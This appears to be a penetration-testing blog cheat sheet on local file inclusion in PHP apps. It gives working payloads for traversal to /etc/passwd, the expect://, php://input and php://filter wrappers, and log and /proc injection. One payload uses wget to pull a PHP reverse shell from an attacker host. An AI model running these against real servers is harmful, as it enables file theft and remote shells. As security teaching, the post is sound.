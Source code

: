 ```yaml
---
layout: blog_item
title: "LFI Cheat Sheet"
date:   2016-04-24 11:29:10
author: Arr0way
description: 'LFI Explained and the techniques to leverage a shell from a local file inclusion vulnerability. How to get a shell from LFI'
categories: [cheat sheets]
tags:
- LFI
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}

## What is an LFI Vulnerability?

LFI stands for **Local File Includes** - it's a file local inclusion vulnerability that allows an attacker to include files that exist on the target web server. Typically this is exploited by abusing dynamic file inclusion mechanisms that don't sanitize user input.

Scripts that take filenames as parameters without sanitizing the user input are good candidates for LFI vulnerabilities, a good example would be the following PHP script <code>foo.php?file=image.jpg</code> which takes <code>image.jpg</code> as a parameter.  An attacker would simply replace <code>image.jpg</code> and insert a payload. Normally a directory traversal payload is used that escapes the script directory and traverses the filesystem directory structure, exposing sensitive files such as <code>foo.php?file=../../../../../../../etc/passwd</code> or sensitive files within the web application itself. Exposing sensitive information or configuration files containing SQL usernames and passwords.

Note: In some cases, depending on the nature of the LFI vulnerability it's possible to run system executables.

## How to get a Shell from LFI

Below are some techniques I've used in the past to gain a shell on systems with vulnerable LFI scripts exposed.

<hr>

### Path Traversal aka Directory Traversal

As mentioned above Traverse the filesystem directory structure to disclose sensitive information about the system that can help you gain a shell, usernames / passwords etc.

<hr>

### PHP Wrapper expect:// LFI

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

{% highlight bash%}
http://127.0.0.1/fileincl/example1.php?page=expect://ls
{% endhighlight %}


Below is the error received if the PHP expect wrapper is disabled:  

{% highlight php %}
Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
{% endhighlight %}

<hr>

### PHP Wrapper php://file

Another PHP wrapper, <code>php://input</code> your payload is sent in a POST request using curl, burp or hackbar to provide the post data is probably the easiest option.  

![LFI php://file hackbar](/img/blog/web-for-penetration-testers/lfi-php-file-hackbar-pentesters-labs.png)

Example:
{% highlight bash %}
http://192.168.183.128/fileincl/example1.php?page=php://input
{% endhighlight %}

Post Data payload, try something simple to start with like: <code><? system('uname -a');?></code>

Then try and download a [reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) from your attacking machine using:

{% highlight bash %}
<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>
{% endhighlight %}


After uploading execute the reverse shell at <code>http://192.168.183.129/shell.php</code>

<hr>

### PHP Wrapper php://filter

Another PHP wrapper, <code>php://filter</code> in this example the output is encoded using base64, so you'll need to decode the output.

{% highlight bash %}
http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
{% endhighlight %}

<hr>

### /proc/self/environ LFI Method

If it's possible to include <code>/proc/self/environ</code> from your vulnerable LFI script, then code execution can be leveraged by manipulating the <code>User Agent</code> parameter with Burp. After the PHP code has been introduced <code>/proc/self/environ</code> can be executed via your vulnerable LFI script.

<hr>

### /proc/self/fd/ LFI Method

Similar to the previous <code>/proc/self/environ</code> method, it's possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the <code>referer</code>.

This method is a little tricky as the proc file that contains the Apache error log information changes under <code>/proc/self/fd/</code> e.g. <code>/proc/self/fd/2</code>, <code>/proc/self/fd/10</code> etc. I'd recommend brute forcing the directory structure of the /proc/self/fd/ directory with Burp Intruder + FuzzDB's [LFI-FD-Check.txt](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI-FD-check.txt) list of likely proc files, you can then monitor the returned page sizes and investigate.

<hr>

## fimap LFI Tool

fimap automates the above processes of discovering and exploiting LFI scripts. Upon discovering a vulnerable LFI script fimap will enumerate the local filesystem and search for writable log files or locations such as <code>/proc/self/environ</code>.  

<hr>

### fimap + phpinfo() Exploit

Fimap exploits PHP's temporary file creation via Local File Inclusion by abusing PHPinfo() information disclosure glitch to reveal the location of the created temporary file.

If a phpinfo() file is present, it's usually possible to get a shell, if you don't know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.


Enjoy.
